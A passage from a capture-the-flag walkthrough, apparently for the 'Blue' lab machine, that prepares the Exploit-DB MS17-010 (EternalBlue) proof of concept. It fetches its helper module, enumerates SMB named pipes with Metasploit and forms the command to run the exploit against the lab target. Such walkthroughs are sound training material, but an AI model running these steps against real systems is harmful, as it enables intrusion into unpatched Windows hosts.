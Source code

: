 Since we know from nmap that this is a Windows 7 machine, we are going to use 42315.py, so make a copy to your local directory. If you are not on Kali linux, you can find 42315.py at the Exploit-db entry here: [https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315)

In this case I renamed the file to “blue.py”. Once you make the copy, open it in your text editor of choice.
    
    cp /usr/share/exploitdb/exploits/windows/remote/42315.py blue.py

Next we need to download a file, mysmb.py, that our exploit script depends on (see the import statements at the top of the script):

    wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

![](/images/blue/15. wget.png "wget")

Place the mysmb.py file in the same directory as your blue.py (if you downloaded it elsewhere).

Now, let's run our blue.py with no options to see what it does:

    python blue.py

![](/images/blue/16. blue.py.usage.png "blue.py usage")

So we need two things, the IP address, which we already have (10.10.10.40) and a pipe name, or named pipe in Windows parlance.

You can read more about what a named pipe is here: [https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes)

The shortest description I have seen is in the null-byte walkthrough: “Named pipes are a way for running processes to communicate with each other with very little overhead.”

Metasploit has a scanner for named pipes that we can use: 

    use auxiliary/scanner/smb/pipe_auditor

    show options

![](/images/blue/17. msf_pipe_auditor.png "msf pipe auditor")

We need to set RHOSTS and then run it.

    set rhosts 10.10.10.40

    run

![](/images/blue/18. msf_pipe_auditor_2.png "msf pipe auditor")

Here we have \netlogon, \browser, \eventlog, \ntsvcs, \lsass, \srvsvc\ and others.

For this exploit, a good one to use is \netlogon so we will go with that.

So now our exploit command should look like this:

    python blue.py 10.10.10.40 netlogon

But we are not ready yet. One thing we did not check is what this python script is actually doing. If we read the description, you will see it is a proof of concept script, so all it does is drop a .txt file on the target to prove execution.  
